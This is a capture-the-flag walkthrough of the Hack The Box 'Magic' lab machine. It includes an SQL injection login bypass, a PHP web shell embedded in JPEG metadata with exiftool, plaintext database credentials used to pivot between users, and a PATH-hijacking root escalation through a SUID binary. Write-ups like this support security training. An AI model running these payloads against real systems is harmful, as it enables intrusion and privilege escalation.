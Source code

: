 ```yaml
---
title: "Hack The Box - Magic"
tags: [linux,medium,sqli,upload,mysql,path hijack]
categories: HackTheBox
---
```


![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Magic%20Box%20d4eab9cb53084b0e825a0a891a772325/Untitled.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Magic%20Box%20d4eab9cb53084b0e825a0a891a772325/Untitled.png)

## NMAP :

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Magic%20Box%20d4eab9cb53084b0e825a0a891a772325/Untitled%201.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Magic%20Box%20d4eab9cb53084b0e825a0a891a772325/Untitled%201.png)

## Enumerating Web :

⇒ There's an login page :
[http://10.10.10.185/login.php](http://10.10.10.185/login.php)

→ We are able to login by performing SQLi :

`admin' or 1=1; --';`

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Magic%20Box%20d4eab9cb53084b0e825a0a891a772325/Untitled%202.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Magic%20Box%20d4eab9cb53084b0e825a0a891a772325/Untitled%202.png)

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Magic%20Box%20d4eab9cb53084b0e825a0a891a772325/Untitled%203.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Magic%20Box%20d4eab9cb53084b0e825a0a891a772325/Untitled%203.png)

→ Uploaded images go to :
[http://10.10.10.185/images/uploads/](http://10.10.10.185/images/uploads/)

## Exploiting Upload

⇒ There are filters which restrict us to upload php files. So we will use image magic bytes to bypass the check.

→ Lets use exiftool to embed our php script to an jpeg image :

`exiftool -DocumentName="<h1>Enox<br><?php if(isset(\$_REQUEST['cmd'])){echo '<pre>';\$cmd = (\$_REQUEST['cmd']);system(\$cmd);echo '</pre>';}__halt_compiler();?></h1>" index.jpeg`

→ Now we will rename the file to index.php.jpeg and upload it 

→ Lets access it :
[http://10.10.10.185/images/uploads/index.php.jpeg](http://10.10.10.185/images/uploads/index.php.jpeg)

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Magic%20Box%20d4eab9cb53084b0e825a0a891a772325/Untitled%204.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Magic%20Box%20d4eab9cb53084b0e825a0a891a772325/Untitled%204.png)

We have command execution , lets pop an shell.

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Magic%20Box%20d4eab9cb53084b0e825a0a891a772325/Untitled%205.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Magic%20Box%20d4eab9cb53084b0e825a0a891a772325/Untitled%205.png)

## Privilege Escalation to User

⇒ We found an interesting file db.php5 in the web folder :

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Magic%20Box%20d4eab9cb53084b0e825a0a891a772325/Untitled%206.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Magic%20Box%20d4eab9cb53084b0e825a0a891a772325/Untitled%206.png)

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Magic%20Box%20d4eab9cb53084b0e825a0a891a772325/Untitled%207.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Magic%20Box%20d4eab9cb53084b0e825a0a891a772325/Untitled%207.png)

⇒ We got mysql credentials. Lets use it to dump everything in the database.

`mysqldump -u theseus -piamkingtheseus Magic`

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Magic%20Box%20d4eab9cb53084b0e825a0a891a772325/Untitled%208.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Magic%20Box%20d4eab9cb53084b0e825a0a891a772325/Untitled%208.png)

→ We got some credentials :
**Th3s3usW4sK1ng**

⇒ We are able to switch to theseus user using the credentials :

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Magic%20Box%20d4eab9cb53084b0e825a0a891a772325/Untitled%209.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Magic%20Box%20d4eab9cb53084b0e825a0a891a772325/Untitled%209.png)

## Privilege Escalation to Root

→ After running [linenum.sh](http://linenum.sh) we find an interesting SUID :

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Magic%20Box%20d4eab9cb53084b0e825a0a891a772325/Untitled%2010.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Magic%20Box%20d4eab9cb53084b0e825a0a891a772325/Untitled%2010.png)

**⇒ Escalating Privileges using path variable**

[https://www.hackingarticles.in/linux-privilege-escalation-using-path-variable/](https://www.hackingarticles.in/linux-privilege-escalation-using-path-variable/)

→ After running strings on the binary we see the following interesting things :

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Magic%20Box%20d4eab9cb53084b0e825a0a891a772325/Untitled%2011.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Magic%20Box%20d4eab9cb53084b0e825a0a891a772325/Untitled%2011.png)

→ We see that full path isnt specified so we can perform path hijacking.

```
cd /tmp
echo "/bin/bash" > lshw
chmod 777 lshw
echo $PATH
export PATH=/tmp:$PATH
cd /bin
./sysinfo
```

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Magic%20Box%20d4eab9cb53084b0e825a0a891a772325/Untitled%2012.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Magic%20Box%20d4eab9cb53084b0e825a0a891a772325/Untitled%2012.png)

→ We can't get any output so lets get an reverse shell using python reverse shell from pentest monkey

![https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Magic%20Box%20d4eab9cb53084b0e825a0a891a772325/Untitled%2013.png](https://raw.githubusercontent.com/CsEnox/csenox.github.io/master/img/Magic%20Box%20d4eab9cb53084b0e825a0a891a772325/Untitled%2013.png)

